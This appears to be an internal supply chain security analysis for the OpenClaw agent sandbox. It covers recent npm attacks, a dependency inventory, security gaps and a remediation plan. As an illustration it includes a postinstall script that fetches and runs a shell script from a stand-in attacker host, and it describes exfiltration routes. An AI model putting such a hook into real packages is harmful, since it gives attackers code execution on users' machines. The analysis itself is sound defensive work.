









# Supply Chain Security Analysis for OpenClaw Sandbox

**Classification**: CRITICAL
**Document Version**: 1.0
**Date**: 2025-02-03
**Author**: Security Architecture Team

---

## Executive Summary

Supply chain attacks have become the dominant vector for compromising software systems. In 2024-2025, the JavaScript/npm ecosystem alone saw over 3,000 malicious packages identified, with a 156% year-over-year increase in malicious package discoveries. For AI agent systems like OpenClaw, the stakes are even higher: a compromised dependency gains access to API keys, can exfiltrate sensitive data, and potentially execute arbitrary actions through the agent's capabilities.

This document analyzes the supply chain attack surface of OpenClaw Sandbox, documents current mitigations, identifies gaps, and proposes a comprehensive remediation plan.

---

## Table of Contents

1. [Threat Landscape](#1-threat-landscape)
2. [OpenClaw Dependency Analysis](#2-openclaw-dependency-analysis)
3. [Attack Scenarios](#3-attack-scenarios)
4. [Current Mitigations](#4-current-mitigations)
5. [Security Gaps](#5-security-gaps)
6. [Remediation Plan](#6-remediation-plan)
7. [Article Outline](#7-article-outline)
8. [References](#8-references)

---

## 1. Threat Landscape

### 1.1 Recent Supply Chain Attacks

The npm ecosystem has experienced catastrophic supply chain attacks in 2024-2025:

#### September 2025 - The Shai-Hulud Attack
- **Impact**: 18+ widely-used packages compromised (debug, chalk, ansi-styles)
- **Weekly Downloads Affected**: 2.6 billion+
- **Attack Vector**: Targeted phishing of package maintainer "qix"
- **Payload**: Credential-stealing malware in postinstall scripts
- **Duration**: ~2 hours before detection

#### July 2025 - eslint-config-prettier Compromise
- **Impact**: 30 million weekly downloads
- **Attack Vector**: Credential phishing via typosquatted npm login page
- **Packages Compromised**: 5 packages from single maintainer account

#### October-November 2025 - PhantomRaven Campaign
- **Packages**: 126 malicious npm packages
- **Targets**: Windows, Linux, macOS
- **Payload**: Multi-platform infostealers, Vidar credential harvester
- **Techniques**: Fake CAPTCHA windows, IP fingerprinting

### 1.2 Attack Techniques



#### Typosquatting
Attackers register packages with names similar to popular libraries:
- `lodsash` instead of `lodash`
- `typescriptjs` instead of `typescript`
- `react-router-dom.js` instead of `react-router-dom`

**Statistics**: 71.2% of malicious packages use names >10 characters; 67.3% include dashes mimicking legitimate conventions.

#### Dependency Confusion
When organizations use internal packages with unscoped names:
1. Attacker publishes same name to public npm with version `99.99.99`
2. Package manager fetches public version due to higher semver
3. Malicious code executes during install

**Impact**: Alex Birsan demonstrated this against 35+ organizations including Apple and Microsoft, earning $130,000+ in bug bounties.

#### Compromised Maintainer Accounts
- 2FA bypass through phishing
- Long-lived npm tokens stolen from CI logs
- Social engineering attacks

#### Malicious Postinstall Scripts
```json
{
  "scripts": {
    "postinstall": "node -e \"require('child_process').exec('curl attacker.com/shell.sh | sh')\""
  }
}
```

The code executes silently during `npm install` with full user privileges.

#### CI/CD Targeting
Modern attacks specifically detect CI environments:
- Trigger only in GitHub Actions/GitLab CI
- Harvest `GITHUB_TOKEN`, npm tokens, cloud credentials
- Self-expiring payloads to minimize forensics

### 1.3 Slopsquatting: The AI-Specific Threat

Large Language Models sometimes "hallucinate" package names that don't exist. Attackers now:
1. Query LLMs for package recommendations
2. Register non-existent suggested packages
3. Wait for developers using AI assistants to install them

This is particularly relevant for AI agent systems like OpenClaw.

---

## 2. OpenClaw Dependency Analysis

### 2.1 Dependency Categories

OpenClaw Sandbox has dependencies across multiple ecosystems:



### 2.2 Host Dependencies (Brewfile)

| Package | Purpose | Risk Level | Notes |
|---------|---------|------------|-------|
| `lima` | VM management | Medium | Binary from GitHub releases |
| `ansible` | Configuration management | Medium | Python package with transitive deps |
| `jq` | JSON processing | Low | Simple C binary |
| `tailscale` (cask) | VPN connectivity | Medium | Proprietary binary |

### 2.3 Ubuntu VM Packages

Installed via `apt-get` in Lima provisioning:

| Package | Purpose | Risk Level |
|---------|---------|------------|
| `curl` | HTTP client | Low |
| `git` | Version control | Low |
| `jq` | JSON processing | Low |
| `build-essential` | Compilation tools | Low |
| `python3` | Python runtime | Low |
| `python3-pip` | Python packages | Medium |
| `ca-certificates` | TLS certificates | Critical |
| `gnupg` | Cryptography | Low |
| `ufw` | Firewall | Low |
| `nodejs` | Node.js runtime | Medium |

### 2.4 JavaScript Runtime Dependencies

#### Bun Installation
```bash
curl -fsSL https://bun.sh/install | bash
```

**Risk Assessment**: HIGH
- Pipes curl output directly to shell
- No checksum verification
- No version pinning
- Single point of compromise

#### Node.js Installation
```bash
curl https://deb.nodesource.com/setup_22.x | bash
```

**Risk Assessment**: HIGH
- Similar curl-to-shell pattern
- NodeSource repository added to apt sources
- All future Node.js updates flow through this channel

### 2.5 npm Package Dependencies

OpenClaw's npm dependencies (from mounted `/mnt/openclaw`) include:

**High-Risk Categories** (packages with postinstall scripts):
- Native modules requiring compilation (e.g., `bcrypt`, `sqlite3`)
- Binary installers (e.g., `playwright`, `puppeteer`)
- Build tools that download additional binaries

**Transitive Dependency Risk**:
A typical Node.js project has 100-1000+ transitive dependencies. Each is an attack vector.

### 2.6 Ansible Galaxy Collections

From `ansible/requirements.yml`:
```yaml
collections:
  - name: community.general
    version: ">=8.0.0"
```

**Risk**: Using `>=` allows any version, including potentially compromised future versions.

---

## 3. Attack Scenarios

### 3.1 Scenario: Compromised npm Package



**Blast Radius**:
- All secrets in `/etc/openclaw/secrets.env`
- Gateway password/token
- LLM API keys (Anthropic, OpenAI, etc.)
- Access to Obsidian vault contents
- Potential pivot to host via mount

### 3.2 Scenario: Malicious Bun Binary



**Impact**:
- All `bun` commands compromised
- Every package install visible to attacker
- Environment variables accessible
- Persistent across updates

### 3.3 Scenario: Ubuntu Package Compromise



**Mitigating Factor**: Ubuntu's apt uses GPG signatures, but:
- PPAs (like NodeSource) add new trust roots
- Mirror MITM possible without HTTPS everywhere

### 3.4 Scenario: OpenClaw Repository Compromise



**Impact**: Every OpenClaw Sandbox user runs attacker code.

### 3.5 Attack Path Diagram



---

## 4. Current Mitigations

### 4.1 VM Isolation

**Implementation**: Lima VM with virtualization framework (`vmType: "vz"`)

**Protection Provided**:
- Process isolation from host
- Separate kernel and userspace
- Memory isolation

**Limitations**:
- Mounted directories (`/mnt/openclaw`, `/mnt/obsidian`) cross the boundary
- Shared SSH keys for access
- Network bridge can be traversed

### 4.2 Network Containment (UFW)

**Implementation**: `ansible/roles/firewall/tasks/main.yml`

**Rules**:
```
Default: DENY incoming, DENY outgoing
ALLOW IN:  TCP 18789 (gateway), TCP 22 (SSH)
ALLOW OUT: DNS (53), HTTP (80), HTTPS (443), NTP (123), Tailscale CIDR
```

**Protection Provided**:
- Limits exfiltration to allowed ports
- Blocks direct reverse shells to arbitrary ports
- Logging of denied connections

**Limitations**:
- HTTPS (443) allows exfiltration to any domain
- DNS tunneling possible (53/UDP)
- HTTP (80) for apt also allows data exfil
- No domain-level filtering

### 4.3 Secrets Management

**Implementation**: `ansible/roles/secrets/tasks/main.yml`

**Protection Provided**:
- Secrets stored in `/etc/openclaw/secrets.env` with mode `0600`
- Not passed via command line (avoids `/proc` exposure)
- `EnvironmentFile=` directive in systemd (not `Environment=`)

**Limitations**:
- Secrets readable by any code running as service user
- No encryption at rest
- No secret rotation mechanism
- Mounted secrets file from host crosses isolation boundary

### 4.4 Lockfiles

**Assumed**: OpenClaw uses `bun.lockb` or `package-lock.json`

**Protection Provided**:
- Pins exact package versions
- Prevents automatic upgrades to malicious versions
- Integrity checksums in lockfile

**Limitations**:
- Only effective if lockfile is committed and used
- `bun install` (without --frozen-lockfile) can update
- No protection against compromise of pinned version

---

## 5. Security Gaps

### 5.1 Critical Gaps

| Gap | Risk | Impact |
|-----|------|--------|
| **No package signature verification** | Compromised package installs undetected | Full system compromise |
| **Curl-to-shell installation** | Bun/Node installers have no integrity check | Persistent backdoor |
| **No SBOM generation** | Unknown dependency inventory | Cannot assess exposure to CVEs |
| **No dependency scanning** | Vulnerabilities undetected | Exploitable weaknesses persist |
| **No reproducible builds** | Cannot verify build integrity | Supply chain injection undetectable |
| **Postinstall scripts enabled** | Automatic code execution | Immediate compromise on install |

### 5.2 Gap Analysis Diagram



### 5.3 Missing Controls

1. **No `npm audit` in CI** - Known vulnerabilities not flagged
2. **No Socket.dev or Snyk integration** - Malicious package detection absent
3. **No integrity verification for Bun** - `curl | bash` is trust-on-first-use
4. **Ansible Galaxy version unpinned** - `>=8.0.0` accepts any future version
5. **No domain-allowlist egress filtering** - HTTPS exfil to any server
6. **No runtime integrity monitoring** - Cannot detect post-compromise tampering

---

## 6. Remediation Plan

### 6.1 Immediate Actions (Week 1)

#### 6.1.1 Disable Postinstall Scripts by Default

**bunfig.toml**:
```toml
[install]
# Disable lifecycle scripts by default
scripts = false

# Allow specific trusted packages that need postinstall
trustedDependencies = ["bcrypt", "sqlite3", "sharp"]
```

**CI enforcement**:
```bash
bun install --frozen-lockfile --ignore-scripts
```

#### 6.1.2 Pin Bun Version with Checksum

Replace curl-to-shell with verified download:

```bash
# In bootstrap.sh or provisioning
BUN_VERSION="1.1.42"
BUN_CHECKSUM="sha256:abc123..."  # From official release

curl -fsSL "https://github.com/oven-sh/bun/releases/download/bun-v${BUN_VERSION}/bun-linux-x64.zip" -o bun.zip
echo "${BUN_CHECKSUM}  bun.zip" | sha256sum -c -
unzip bun.zip
```

#### 6.1.3 Add npm Audit to CI

**`.github/workflows/ci.yml`**:
```yaml
  security-audit:
    name: Dependency Security Audit
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Setup Bun
        uses: oven-sh/setup-bun@v2
        with:
          bun-version: "1.1.42"

      - name: Run security audit
        run: |
          bun audit --level moderate

      - name: Check for known malicious packages
        uses: socketdev/socket-action@v1
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
```

### 6.2 Short-Term Actions (Month 1)

#### 6.2.1 SBOM Generation

**Add CycloneDX SBOM generation**:

```yaml
# .github/workflows/sbom.yml
name: Generate SBOM

on:
  push:
    branches: [main]
  release:
    types: [published]

jobs:
  sbom:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Generate SBOM
        uses: CycloneDX/gh-node-module-generatebom@v1
        with:
          output: sbom.json

      - name: Upload SBOM
        uses: actions/upload-artifact@v4
        with:
          name: sbom
          path: sbom.json

      - name: Attest SBOM
        uses: actions/attest-sbom@v1
        with:
          sbom-path: sbom.json
```

#### 6.2.2 Pin All Versions

**ansible/requirements.yml**:
```yaml
collections:
  - name: community.general
    version: "8.6.0"  # Pin exact version
```

**Lima image pinning**:
```yaml
images:
  - location: "https://cloud-images.ubuntu.com/noble/20250115/noble-server-cloudimg-arm64.img"
    arch: "aarch64"
    digest: "sha256:abc123..."  # Pin with hash
```

#### 6.2.3 Implement Lockfile Auditing

```bash
#!/bin/bash
# scripts/audit-lockfile.sh

# Check for lockfile modifications
if git diff --name-only HEAD~1 | grep -q "bun.lock\|package-lock.json"; then
    echo "Lockfile changed - performing security audit"

    # Diff lockfile changes
    git diff HEAD~1 -- bun.lock* package-lock.json | grep "^+" | head -50

    # Run audit on new dependencies
    bun audit
fi
```

### 6.3 Medium-Term Actions (Quarter 1)

#### 6.3.1 Domain-Allowlist Egress Filtering

Enhance UFW with domain-based filtering using DNS-based rules:

```yaml
# ansible/roles/firewall/vars/allowed_domains.yml
allowed_egress_domains:
  - api.anthropic.com
  - api.openai.com
  - generativelanguage.googleapis.com
  - registry.npmjs.org
  - github.com
  - objects.githubusercontent.com
```

Consider implementing with:
- DNS proxy (e.g., dnscrypt-proxy) for domain logging
- eBPF-based egress filtering
- Or application-layer proxy (squid) for HTTPS inspection

#### 6.3.2 Consider Vendoring Critical Dependencies

For maximum supply chain security:

```bash
# Vendor critical dependencies
mkdir -p vendor/
cd /mnt/openclaw
bun pack chalk debug dotenv  # Pack critical deps
mv *.tgz ../openclaw-sandbox/vendor/

# Install from vendor
bun add ./vendor/chalk-5.3.0.tgz
```

**Trade-offs**:
- Pro: No network dependency, full control
- Con: Must manually update, larger repo size

#### 6.3.3 Implement Dependency Review

**GitHub Dependency Review Action**:
```yaml
- name: Dependency Review
  uses: actions/dependency-review-action@v4
  with:
    fail-on-severity: moderate
    deny-licenses: GPL-3.0, AGPL-3.0
    allow-ghsas: false
```

### 6.4 Long-Term Actions (Year 1)

#### 6.4.1 Reproducible Builds

Implement fully reproducible builds:

```dockerfile
# Dockerfile.build
FROM ubuntu:24.04@sha256:abc123...

# Pin ALL package versions
RUN apt-get update && apt-get install -y \
    nodejs=22.0.0-1nodesource1 \
    && rm -rf /var/lib/apt/lists/*

# Use hash-locked npm install
COPY package.json package-lock.json ./
RUN npm ci --ignore-scripts

# Build with locked toolchain
COPY . .
RUN npm run build
```

#### 6.4.2 Runtime Integrity Monitoring

Deploy file integrity monitoring:

```yaml
# Integrate with AIDE or osquery
- name: Install AIDE
  apt:
    name: aide
    state: present

- name: Configure AIDE for OpenClaw
  template:
    src: aide.conf.j2
    dest: /etc/aide/aide.conf
```

#### 6.4.3 AI Bill of Materials (AIBOM)

For AI agent transparency:

```json
{
  "aibom_version": "1.0",
  "agent": {
    "name": "OpenClaw",
    "version": "0.1.0"
  },
  "models": [
    {
      "provider": "anthropic",
      "model": "claude-3-5-sonnet",
      "access": "api"
    }
  ],
  "data_sources": [
    {
      "type": "obsidian_vault",
      "access": "read-write",
      "path": "/mnt/obsidian"
    }
  ],
  "dependencies": {
    "sbom_ref": "sbom.json"
  }
}
```

### 6.5 Remediation Priority Matrix



---

## 7. Article Outline

### "Supply Chain Security for AI Agents: Trust No One"

**Target Publication**: AI/Security blog, ~3000 words

#### Outline

1. **Hook: The 2-Hour Window** (300 words)
   - September 2025: 2.6 billion weekly downloads compromised
   - Why AI agents are especially vulnerable
   - The unique risks of autonomous systems

2. **What Makes AI Agents Different** (400 words)
   - Always-on execution environment
   - Access to sensitive credentials (API keys)
   - Capability to take actions (not just steal data)
   - Trust relationships with external services
   - The "confused deputy" problem amplified

3. **Anatomy of a Supply Chain Attack** (500 words)
   - Case study: Hypothetical OpenClaw compromise
   - Attack chain: npm -> postinstall -> secret exfil -> API abuse
   - Timeline of a real attack
   - Why detection is so difficult

4. **The AI-Specific Threat: Slopsquatting** (300 words)
   - LLM hallucination as attack vector
   - Attackers mining AI assistants for package names
   - The irony: AI tools increasing AI agent risk

5. **Defense in Depth for AI Agents** (600 words)
   - Layer 1: Dependency hygiene
     - Lockfiles, pinning, auditing
   - Layer 2: Build-time controls
     - SBOM, reproducible builds, signature verification
   - Layer 3: Runtime containment
     - VM isolation, network restrictions, secret management
   - Layer 4: Monitoring and response
     - Anomaly detection, incident response

6. **The Trust Boundary Problem** (400 words)
   - Host mounts crossing VM isolation
   - Shared credentials
   - The npm registry as implicit trust
   - "Trusting the toolchain" fallacy

7. **Practical Implementation** (300 words)
   - Quick wins checklist
   - CI/CD integration examples
   - Monitoring setup

8. **The Future: Verified AI Agents** (200 words)
